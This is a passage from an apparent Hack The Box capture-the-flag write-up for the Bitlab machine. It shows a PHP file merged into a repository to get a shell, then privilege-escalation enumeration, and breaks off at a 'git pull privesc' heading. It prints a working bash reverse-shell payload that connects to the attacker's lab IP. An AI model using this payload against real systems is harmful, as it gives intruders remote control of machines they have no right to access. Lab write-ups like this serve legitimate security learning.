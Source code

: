 After merging, `/profile` shows the executed command:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bitlab/image-15.png)

I would be able to get a reverse shell connection using the php script below:

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.21/1337 0>&1'");
?>
```

After merging the change, I get a shell connection as www-data

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bitlab/image-19.png)


## Priesc: www-data to clave


After making the shell more interactive using `python2 -c 'import pty; pty.spawn("/bin/bash")'`, I ran lse.sh to see if it finds anything.

I can run `git pull` with the root privilege, this is something interesting:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bitlab/image-21.png)

Uncommon SUID mount.cifs is found but this doesn't seem very intriguing to me:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bitlab/image-20.png)

### git pull privesc
